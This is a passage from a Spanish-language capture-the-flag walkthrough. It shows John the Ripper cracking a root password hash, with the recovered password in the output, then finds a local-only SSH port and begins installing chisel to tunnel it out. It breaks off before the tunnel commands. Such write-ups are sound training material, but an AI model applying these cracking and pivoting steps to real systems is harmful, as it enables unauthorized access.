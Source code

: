 ```shell
john --format=crypt --wordlist=<WORDLISTS> hash.root
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 6 for all loaded hashes
Cost 2 (algorithm specific iterations) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shadow123        (root)     
1g 0:00:00:02 DONE (2025-08-19 04:04) 0.4830g/s 3942p/s 3942c/s 3942C/s weston..kaiden
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que lo hemos conseguido, pero si volvemos a la maquina a realizar el `su` para escalar al usuario `root` veremos que no nos deja, pero si investigamos un poco veremos el siguiente puerto.

```shell
ss -tuln
```

Info:

```
Netid            State             Recv-Q            Send-Q                       Local Address:Port                       Peer Address:Port            
udp              UNCONN            0                 0                                  0.0.0.0:68                              0.0.0.0:*               
tcp              LISTEN            0                 100                                0.0.0.0:21                              0.0.0.0:*               
tcp              LISTEN            0                 128                              127.0.0.1:22                              0.0.0.0:*               
tcp              LISTEN            0                 128                                0.0.0.0:4200                            0.0.0.0:*               
tcp              LISTEN            0                 128                                      *:80                                    *:*
```

Veremos algo interesante y es que hay un `SSH` de forma local, pero si probamos a conectarnos de forma local por `SSH` veremos que no nos deja, por lo que vamos a utilizar `chisel` para exponerlo a nuestra maquina `host`.

URL = [Download Chisel GitHub](https://github.com/jpillora/chisel)

Ahora lo instalaremos de esta forma en nuestra maquina `host`.

```shell
go install github.com/jpillora/chisel@latest
```

Y haremos lo siguiente en dicha maquina:
